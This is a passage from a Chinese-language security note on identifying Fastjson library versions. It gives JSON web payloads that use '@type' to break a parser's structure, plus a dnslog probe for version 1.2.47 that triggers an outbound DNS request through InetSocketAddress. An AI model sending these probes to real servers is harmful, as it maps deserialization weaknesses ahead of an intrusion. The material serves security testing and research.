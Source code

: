 ![](attachments/Pasted%20image%2020221118153949.png)

### 精确版本号2

对于存在 FastJsonHttpMessageConverter 配置的解析，通常指定了key值或json结构，可通过添加`[]`等方式破坏既定结构，实例：

```json  
[
  {
    "@type": "whatever"
  }
]  
```

![](attachments/Pasted%20image%2020221124153332.png)

### dnslog

在没有回显的情况下，如果可以出网就要考虑dnslog了

前文提到1.2.24版本不会解析 `java.net.URL`
，而在之前的研究中，1.2.47、1.2.68、1.2.80是漏洞的三个里程碑版本，通过`java.lang.Class`、`java.lang.AutoCloseable`、`java.lang.Exception`
来构造dns请求可以准确识别

payload向下兼容版本，

#### 1.2.47

```json  
[
  {
    "@type": "java.lang.Class",
    "val": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "dnslog"
  }
}
]
```
